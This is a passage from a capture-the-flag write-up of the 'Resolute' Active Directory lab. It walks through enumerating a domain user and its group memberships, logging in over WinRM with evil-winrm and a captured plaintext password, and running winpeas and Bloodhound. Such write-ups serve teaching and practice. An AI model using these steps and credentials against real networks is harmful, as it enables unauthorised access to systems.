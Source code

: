 Ok, so maybe he's not actually an Admin.

```powershell
net user ryan /domain
User name                    ryan
Full Name                    Ryan Bertrand
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/9/2023 11:53:02 AM
Password expires             Never
Password changeable          7/10/2023 11:53:02 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Contractors
The command completed successfully.
```

Ah, he's a member of the Contractors group. Exploring the Contractors group in Bloodhound, it is a member of DNSAdmins and Remote Management Users, so WinRM should work.

```sh
# log in
❯ evil-winrm -i resolute -u ryan -p 'Serv3r4Admin4cc123!'
```

After upgrading the shell like before, I poke around in the file system and find a note on Ryan's desktop:

```powershell
type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```

I wonder what that means? (NOTE: later I noticed it kept resetting registry values I was changing, and I think this is why)

Running winpeas, I don't see anything new/interesting. Also re-ran Bloodhound, but didn't see anything new.

